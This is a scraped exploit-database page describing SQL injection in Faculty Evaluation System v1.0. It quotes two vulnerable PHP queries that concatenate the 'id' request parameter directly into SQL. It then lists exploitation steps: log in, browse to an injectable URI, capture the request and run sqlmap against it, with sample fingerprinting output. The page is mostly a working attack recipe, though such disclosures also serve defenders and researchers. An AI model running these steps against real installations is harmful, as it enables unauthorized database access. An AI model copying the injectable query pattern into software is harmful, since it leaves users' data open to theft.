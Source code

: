 ```yaml
---
title: Faculty Evaluation System v1.0 - SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38853&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-11
fetch_date: 2025-10-04T11:52:34.524587
---
```


# Faculty Evaluation System v1.0 - SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Faculty Evaluation System v1.0 - SQL Injection Vulnerability

2023-07-10 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38853
# Exploit Title: Faculty Evaluation System v1.0 - SQL Injection
# Exploit Author: Andrey Stoykov
# Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
# Version: 1.0
# Tested on: Windows Server 2022

SQLi #1

File: edit_evaluation

Line #4
$qry = $conn->query("SELECT * FROM ratings where id = ".$_GET['id'])->fetch_array();
[...]

SQLi #2

File: view_faculty.php

Line #4

// Add "id" parameter after "view_faculty" parameter then add equals "id" with integer
[...]
$qry = $conn->query("SELECT *,concat(firstname,' ',lastname) as name FROM faculty_list where id = ".$_GET['id'])->fetch_array();
[...]

Steps to Exploit:

1. Login to application
2. Browse to following URI "http://host/eval/index.php?page=view_faculty&id=1"
3. Copy request to intercept proxy to file
4. Exploit using SQLMap

sqlmap -r test.txt  --threads 1 --dbms=mysql --fingerprint

[...]
[INFO] testing MySQL
[INFO] confirming MySQL
[INFO] the back-end DBMS is MySQL
[INFO] actively fingerprinting MySQL
[INFO] executing MySQL comment injection fingerprint
back-end DBMS: active fingerprint: MySQL >= 5.7
               comment injection fingerprint: MySQL 5.6.49
               fork fingerprint: MariaDB
[...]
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)